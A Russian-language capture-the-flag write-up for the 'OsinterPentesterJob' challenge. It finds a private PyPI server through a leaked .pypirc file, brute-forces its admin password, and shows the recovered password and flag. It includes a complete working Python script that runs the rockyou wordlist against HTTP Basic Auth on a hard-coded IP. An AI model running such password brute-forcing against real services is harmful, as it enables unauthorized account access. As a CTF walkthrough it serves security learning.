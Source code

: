 # OsinterPentesterJob

Аккаунт гитхаба тот же что и в OsinterJob, поэтому нахождение этого аккаунта можно увидеть там. Нам интересен прежде всего файл `.pypirc`, в котором мы обнаруживаем url: http://185.4.73.35:8080/
Заходя на него видим обычный pypi сервер хранения пакетов, но вот проблема, чтобы получить пакет рута нужен пароль (логин прописан в `.pypirc`). Тогда ни найдя ничего другого примемся брутфорсить пароль. Ниже представлен успешный код брутфорса:
```python
import requests as r
import base64

rockyou = open('rockyou.txt', 'rb').read().decode('shift-jis', 'ignore').split('\n')

url = "http://185.4.73.35:8080/packages/simple-backend-app/"
username = "admin"
password = ""
auth = lambda x, y: base64.b64encode("{}:{}".format(x,y).encode()).decode()

col = 0
for password in rockyou:
    ans = r.post(url, headers={'Authorization': 'Basic {}'.format(auth(username, password))})
    if ans.status_code == 200:
        print('Password is',password)
        exit()
    col += 1
    if col % 100 == 0:
        print(col, 'passwords bruted')
```
После чего получаем вывод: `Password is welcome`
Качаем архив и в файле setup.py нас встречает флаг.

Flag: `CYBERTHON{Lea3n_PyT0n_PacKa41ng}`
